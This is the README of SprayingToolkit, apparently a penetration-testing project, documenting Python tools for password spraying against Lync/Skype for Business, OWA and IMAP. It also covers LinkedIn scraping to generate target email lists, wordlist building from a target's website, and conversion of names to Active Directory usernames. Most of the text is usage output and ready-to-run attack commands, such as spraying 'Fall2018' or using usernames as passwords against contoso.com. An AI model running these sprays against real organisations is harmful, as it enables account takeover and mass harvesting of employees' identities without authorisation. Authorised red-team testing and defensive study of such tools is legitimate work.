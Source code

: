 # SprayingToolkit

<p align="center">
  <img src="http://38.media.tumblr.com/79d7e2a376cb96fb581b3453070f6229/tumblr_ns5suorqYu1szok8ro1_500.gif" alt="SprayingToolkit"/>
</p>


## Description

A set of Python scripts/utilities that *tries* to make password spraying attacks against Lync/S4B & OWA a lot quicker, less painful and more efficient.

### Brought To You By

<p align="center">
  <a href="https://www.blackhillsinfosec.com/">
    <img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png" alt="blackhillsinfosec"/>
  </a>
</p>

## Installation

Install the pre-requisites with `pip3` as follows:

```bash
sudo -H pip3 install -r requirements.txt
```

Or use a Python virtual environment if you don't want to install the packages globally.

## Tool Overview

### Atomizer

A blazing fast password sprayer for Lync/Skype For Business and OWA, built on AsyncIO and Python 3.7

#### Usage
```
Usage:
    atomizer (lync|owa|imap) <target> <password> <userfile> [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> <passwordfile> <userfile> --interval <TIME> [--gchat <URL>] [--slack <URL>] [--targetPort PORT][--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --csvfile CSVFILE [--user-row-name NAME] [--pass-row-name NAME] [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --user-as-pass USERFILE [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --recon [--debug]
    atomizer -h | --help
    atomizer -v | --version

Arguments:
    target         target domain or url
    password       password to spray
    userfile       file containing usernames (one per line)
    passwordfile   file containing passwords (one per line)

Options:
    -h, --help               show this screen
    -v, --version            show version
    -c, --csvfile CSVFILE    csv file containing usernames and passwords
    -i, --interval TIME      spray at the specified interval [format: "H:M:S"]
    -t, --threads THREADS    number of concurrent threads to use [default: 3]
    -d, --debug              enable debug output
    -p, --targetPort PORT    target port of the IMAP server (IMAP only) [default: 993]
    --recon                  only collect info, don't password spray
    --gchat URL              gchat webhook url for notification
    --slack URL              slack webhook url for notification
    --user-row-name NAME     username row title in CSV file [default: Email Address]
    --pass-row-name NAME     password row title in CSV file [default: Password]
    --user-as-pass USERFILE  use the usernames in the specified file as the password (one per line)
```

#### Examples

```bash
./atomizer.py owa contoso.com 'Fall2018' emails.txt
```

```bash
./atomizer.py lync contoso.com 'Fall2018' emails.txt
```

```bash
./atomizer lync contoso.com --csvfile accounts.csv
```

```bash
./atomizer lync contoso.com --user-as-pass usernames.txt
```

```bash
./atomizer owa 'https://owa.contoso.com/autodiscover/autodiscover.xml' --recon
```

```bash
./atomizer.py owa contoso.com passwords.txt emails.txt -i 0:45:00 --gchat <GCHAT_WEBHOOK_URL>
```

### Vaporizer

A port of [@OrOneEqualsOne](https://twitter.com/OrOneEqualsOne)'s [GatherContacts](https://github.com/clr2of8/GatherContacts) Burp extension to [mitmproxy](https://mitmproxy.org/) with some improvements.

Scrapes Google and Bing for LinkedIn profiles, automatically generates emails from the profile names using the specified pattern and performes password sprays in real-time.

(Built on top of Atomizer)

#### Examples

```bash
mitmdump -s vaporizer.py --set sprayer=(lync|owa) --set domain=domain.com --set target=<domain or url to spray> --set password=password --set email_format='{f}.{last}'
```

By default `email_format` is set to `{first}.{last}` pattern and is not a required argument.

The `domain` parameter is the domain to use for generating emails from names, the `target` parameter is the domain or url to password spray

Install the mitmproxy cert, set the proxy in your browser, go to google and/or bing and search (make sure to include the `/in`):

`site:linkedin.com/in "Target Company Name"`

Emails will be dumped to `emails.txt` in the specified format, and passed to Atomizer for spraying.


### Aerosol

Scrapes all text from the target website and sends it to [AWS Comprehend](https://aws.amazon.com/comprehend/) for analysis to generate custom wordlists for password spraying.

**Still a work in progress**

#### Usage

```bash
mitmdump -s aerosol.py --set domain=domain.com
```

### Spindrift

Converts names to active directory usernames (e.g `Alice Eve` => `CONTOSO\aeve`)

#### Usage

```
Usage:
    spindrift [<file>] [--target TARGET | --domain DOMAIN] [--format FORMAT]

Arguments:
    file    file containing names, can also read from stdin

Options:
    --target TARGET   optional domain or url to retrieve the internal domain name from OWA
    --domain DOMAIN   manually specify the domain to append to each username
    --format FORMAT   username format [default: {f}{last}]
```

#### Examples

Reads names from STDIN, `--domain` is used to specify the domain manually:

```bash
cat names.txt | ./spindrift.py --domain CONTOSO
```

Reads names from `names.txt`, `--target` dynamically grabs the internal domain name from OWA (you can give it a domain or url)

```bash
./spindrift.py names.txt --target contoso.com
```

